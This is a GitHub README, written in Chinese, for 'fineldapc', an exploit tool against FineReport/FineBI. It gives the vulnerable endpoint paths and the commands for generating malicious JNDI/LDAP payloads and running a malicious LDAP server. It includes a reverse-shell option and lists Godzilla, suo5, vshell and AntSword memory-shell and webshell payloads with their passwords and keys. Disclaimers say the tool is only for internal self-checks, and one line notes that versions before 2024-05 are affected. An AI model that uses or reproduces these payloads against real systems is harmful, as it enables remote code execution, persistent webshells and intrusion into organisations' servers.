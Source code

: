### fineldapc

```shell
  ▄████████  ▄█  ███▄▄▄▄      ▄████████  ▄█       ████████▄     ▄████████    ▄███████▄  ▄████████
  ███    ███ ███  ███▀▀▀██▄   ███    ███ ███       ███   ▀███   ███    ███   ███    ███ ███    ███
  ███    █▀  ███▌ ███   ███   ███    █▀  ███       ███    ███   ███    ███   ███    ███ ███    █▀
 ▄███▄▄▄     ███▌ ███   ███  ▄███▄▄▄     ███       ███    ███   ███    ███   ███    ███ ███
▀▀███▀▀▀     ███▌ ███   ███ ▀▀███▀▀▀     ███       ███    ███ ▀███████████ ▀█████████▀  ███
  ███        ███  ███   ███   ███    █▄  ███       ███    ███   ███    ███   ███        ███    █▄
  ███        ███  ███   ███   ███    ███ ███▌    ▄ ███   ▄███   ███    ███   ███        ███    ███
  ███        █▀    ▀█   █▀    ██████████ █████▄▄██ ████████▀    ███    █▀   ▄████▀      ████████▀
                                         ▀                                      power by unam4

漏洞路径: /webroot/decision/remote/design/channel

加载jsp依赖： /webroot/decision/file?path=org.apache.jasper.servlet.JasperInitializer&type=class

获取版本: /webroot/decision/system/info

生成恶意jndibin：java -jar fineldapc.jar -bin  [rmi|ldap]://host:port/obj

开启恶意ldap：java -jar fineldapc.jar -ldap <port> <CLASS:classname>/<resershell:ip#port>/<FILE:filepath>

生成恶意类加载bin: java -jar fineldapc.jar -loadbin classname

classname: (fineBI都可以使用，finereport请用jsp类型)

tomcatecho (head头 Etags: base64enc(Command))
godzilla_mem    加密器: JAVA_AES_BASE64 密码: Hwtfhlitg 密钥: Loklewkvqbo 请求路径: /* 请求头: User-Agent: Orjuagk
suo5    (suo5 -d -l 0.0.0.0:7788 --auth test:test123 --ua 'Nuexq' -t http(s)://ip:port/webroot/decision)
vshell(agent): 加密器: JAVA_AES_BASE64 密码: Iddzfpe 密钥: Septtdzjura 请求路径: /* 请求头: Referer: Aiskhs 脚本类型: JSP
anstword  类型：jspjs 密码: b
suo5jsp: suo5 -t http://10.211.55.2:8075/webroot/tunnel.jsp
godzillajsp: 加密器: JAVA_AES_BASE64 密码: fine 密钥: ldapc 请求路径: /*

重要: !!!
免责声明 该工具仅用于安全自查检测
由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。
该工具只授权于企业内部进行问题排查，请勿用于非法用途，请遵守网络安全法，否则后果作者概不负责
```
起恶意ldap 填写端口要加载class，或者 resershell:127.0.0.1#8888 进行反弹shell（win/linux 都行），FILE:filepath 用于返回指定的字节流。

生成bin

![image-20240901233223069](README/image-20240901233223069.png)

开启起ldap服务

![image-20240901233310493](README/image-20240901233310493.png)

攻击

![image-20240901232757401](README/image-20240901232757401.png)

**生产千万不要使用vshell(agent)**

![image-20240906202857923](README/image-20240906202857923.png)

![image-20240906202943055](README/image-20240906202943055.png)



![image-20240906203107835](README/image-20240906203107835.png)

![image-20240906203304224](README/image-20240906203304224.png)

![image-20240906203337102](README/image-20240906203337102.png)

![image-20240906203413750](README/image-20240906203413750.png)

### 原理

https://unam4.github.io/2024/06/23/%E6%9F%90%E6%8A%A5%E8%A1%A8%E6%9C%80%E6%96%B0%E5%8F%8D%E5%BA%8F%E5%88%97%E6%BC%8F%E6%B4%9E/
https://unam4.github.io/2024/06/03/%E6%96%B0jdk%E5%8E%9F%E7%94%9F%E5%85%A5%E5%8F%A3%E5%88%B0jndi/

### 修复
官网确认 2024-05以前版本受到影响，升级之后版本不收此漏洞影响。

### 免责声明
该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。

该工具只授权于企业内部进行问题排查，请勿用于非法用途，请遵守网络安全法，否则后果作者概不负责
